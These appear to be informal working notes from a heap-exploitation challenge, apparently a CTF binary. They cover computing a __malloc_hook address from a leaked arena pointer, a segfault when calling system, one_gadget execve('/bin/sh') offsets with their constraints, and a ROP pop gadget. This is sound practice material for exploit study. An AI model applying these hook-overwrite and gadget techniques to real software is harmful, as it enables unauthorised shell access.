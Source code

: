 If this is true that would be nice:
```
void *malloc_hook = arena_top - 0x68;
```


We know the address we'er leaking is at arena-top - 96 (I think)



Code as it is is leaking and overwriting, but currently my execution of system gets a segfault
```
0x00007ffff7ea6dc6 in __execvpe (file=<optimized out>, argv=<optimized out>, envp=<optimized out>) at execvpe.c:61
```



# Okay, I think I need gadgets
Onegadgets:
```
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

```

Potential Gadgets:
```
0xe3afe
	0x00000000000ef194 : pop r12 ; pop r13 ; pop r15 ; ret
```


Let's try!













Okay, I think my last problem is just math
in delete it calls
`free(*(void **)(ptr_array + (long)i * 8));`
